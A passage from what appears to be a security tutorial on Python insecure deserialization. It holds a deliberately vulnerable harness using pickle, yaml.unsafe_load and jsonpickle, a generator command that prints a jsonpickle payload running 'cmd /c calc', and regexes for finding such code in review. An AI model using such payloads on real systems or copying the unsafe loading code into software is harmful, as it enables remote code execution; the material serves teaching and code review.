 ```bash

```

To test our payloads, and for simplicity, we'll use the following vulnerable code:

```python
import _pickle
import sys
import yaml
import jsonpickle

if sys.argv[1] == "b":
    with open("payload.bin", "rb") as payload:
        _pickle.loads(payload.read())
elif sys.argv[1] == "y":
    with open("payload.yml", "r") as payload:
        if float(yaml.__version__) <= 5.1: 
            yaml.load(payload)
        else:
            yaml.unsafe_load(payload)
elif sys.argv[1] == "j":
    with open("payload.json", "r") as payload:
        jsonpickle.decode(payload.read())
```

To generate a valid payload for jsonpickle, for example, we can use the script with the following arguments:

```bash
$ python PayloadGenerator.py -f json -v os -c "cmd /c calc"
[+] Generating serialized object for:
    cmd /c calc
[+] Final Payload:
    {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["cmd /c calc"]}]}
```

**Tips for Source Code reviewers**

To find this kind of vulnerability it is usually a good start to search the code for common regexes, like: 

* `(loads|load|unsafe_load|decode)\s*\(`
* `([p|P]ickle|yaml)`

For each match, the code should be manually inspected to see whether the object being deserialized can be manipulated by an external attacker.

#### References

* [PyYAML - Exploit-DB](https://www.exploit-db.com/docs/47655)
* [Exploiting jsonpickle](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

### NodeJS

In NodeJS, serialization is handled by many different modules, which allow to marshal arbitrary complex objects in JSON-like format. We'll se a few of them, which were found to be susceptible to deserialization issues:
